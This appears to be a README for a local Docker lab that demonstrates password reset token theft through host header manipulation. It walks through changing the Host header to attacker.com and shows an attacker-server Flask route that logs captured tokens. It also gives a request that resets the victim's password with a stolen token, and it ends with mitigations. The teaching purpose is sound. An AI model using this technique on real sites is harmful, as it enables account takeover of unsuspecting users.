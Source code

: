 # Password Reset Spoof
A demonstration of Host Header Manipulation to exploit password reset functionality and capture reset tokens for unauthorized account access.

### Host Header Attack: Password Reset Exploitation

1. **Attacker Accesses Password Reset Form**:
   The attacker visits the target website (e.g., www.example.com) and enters the victim's email in the password reset form.

2. **Attacker Intercepts the Request**:
   Using a proxy tool (e.g., Burp Suite), the attacker intercepts the outgoing password reset request.

3. **Host Header Manipulation**:
   The attacker modifies the `Host` header from www.example.com to attacker.com.

4. **Server Generates Malicious Link**:
   The target server uses the manipulated `Host` header to generate a password reset link pointing to attacker.com.

5. **Victim Receives Email with Malicious Link**:
   The victim receives a legitimate-looking email containing the malicious link (e.g., https://attacker.com/reset-password?token=abc123).

6. **Victim Clicks the Malicious Link**:
   The victim unknowingly clicks the link, which redirects them to the attacker-controlled website.

7. **Attacker Captures Reset Token**:
   The attacker’s website captures the password reset token (e.g., abc123) from the victim's request.

8. **Attacker Uses the Token**:
   The attacker sends the captured token to the legitimate password reset endpoint on www.example.com and resets the victim's password, gaining control over their account.


# Step-by-Step Guide to Running the Project

This guide explains how to set up and run the project.

## Update Credentials:

![Update Credentials](images/mail_script.png)

Explanation: This step ensures the system uses the specified email credentials for sending reset emails as part of the scenario demonstration.


### Step 1: Start Docker Compose
Run the following command to start all services:
```bash
docker-compose up --build
```

### Step 2: Open Localhost Ports
Access the services running on your local machine through the following ports:

1. **Backend**: Open your browser and navigate to: http://localhost:5000
2. **Frontend**: Open your browser and navigate to: http://localhost:4567


### Step 3: Enter Victim's Email for Password Reset
In this step, the attacker enters the victim's email address into the password reset form on the legitimate website to initiate the password reset process.

Example Screenshot:
![Enter Victim Email](images/victim_email.png)

Explanation: This step triggers the password reset process, and the server will send a reset link to the victim’s email address.

### Step 4: Victim Receives Email and Clicks Malicious Link

In this step, the victim receives an email containing a password reset link generated by the manipulated `Host` header. The link appears legitimate but redirects to the attacker's website.

Example Screenshot:
![Victim Receives Email](images/password_reset_email.png)

Explanation: The victim, unaware of the attack, clicks the link (e.g., `https://attacker.com/reset-password?token=abc123`). This action redirects them to the attacker's web server, which captures the reset token from the request.


### Step 5: Attacker Captures the Token in Attacker Server

When the victim clicks the malicious reset link, they are redirected to the attacker's server. The attacker’s server (`attacker_server/main.py`) captures the reset token from the URL.

Code in `attacker_server/main.py`:
```python
@app.route('/reset-password', methods=['GET'])
def capture_token():
    token = request.args.get('token')
    if token:
        print(f"Captured Token: {token}")
        with open("captured_tokens.txt", "a") as f:
            f.write(f"Captured Token: {token}\n")
        return jsonify({"success": True, "message": "Token captured successfully"}), 200
    else:
        return jsonify({"success": False, "message": "No token found in the request"}), 400
```

### Step 6: Attacker Sends the Payload to Server Endpoint

Using the captured reset token, the attacker crafts a malicious payload and sends it to the legitimate server’s password reset confirmation endpoint (`/confirm-password`). This resets the victim's password to one chosen by the attacker.

Example Payload:
```bash
curl -Uri "http://127.0.0.1:5000/confirm-password" `
     -Method POST `
     -Headers @{ "Content-Type" = "application/json" } `
     -Body '{"token": "tQX0MRohLMSS7EI2C0nT7-WnAFszNngRwY8pTrl6jE0", "new_password": "newsecurepassword"}'
```


### Step 7: Attacker Logs in Using Victim's Email and New Password
After successfully resetting the victim's password, the attacker can now log in to the victim's account using the email and the new password they set.


# Conclusion
This demonstration highlights the risks associated with insecure password reset implementations and the exploitation of trust in the `Host` header. By manipulating the reset process, attackers can capture sensitive tokens, gain unauthorized access to user accounts, and compromise the security of the system. Implementing proper validations, such as whitelisting `Host` headers, securing reset tokens, and employing multi-factor authentication, can help mitigate these attacks.
